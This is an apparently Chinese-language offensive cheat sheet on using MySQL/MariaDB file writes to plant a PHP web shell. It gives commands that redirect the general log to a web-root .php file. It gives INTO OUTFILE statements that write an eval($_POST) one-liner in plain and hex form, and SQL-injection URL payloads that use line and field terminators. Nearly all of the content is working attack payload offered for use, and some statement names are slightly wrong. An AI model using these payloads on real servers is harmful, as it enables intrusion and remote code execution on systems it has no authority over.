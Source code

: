 ----

# 写文件

## 利用log写入

​	MariaDB10.0.32

​	secure_file_priv= 

> show global variable like '%general%';
>
> set global general_log=on;
>
> set global_log_file='var/www/html/i.php' #MySQL要有i.php的写入权限
>
>  select '<?php eval($_POST["c"]);?>';

## outfile

mysql有写入权限，知道物理路径，secure_file_priv允许访问目录

>  select '<?php eval($_POST["c"]);?>' into outfile '/var/www/html/e.php';
>
> select 0x3c3f706870206576616c28245f504f53545b2263225d293b3f3e into outfile '/var/www/html/e.php';

## 分隔符

> ?id=1 INTO OUTFILE '物理路径' lines terminated by (一句话hex编码)
>
> ?id=1 INTO OUTFILE '物理路径' fields terminated by (一句话hex编码)
>
> ?id=1 INTO OUTFILE '物理路径' columns terminated by (一句话hex编码)
>
> ?id=1 INTO OUTFILE '物理路径' lines starting by (一句话hex编码)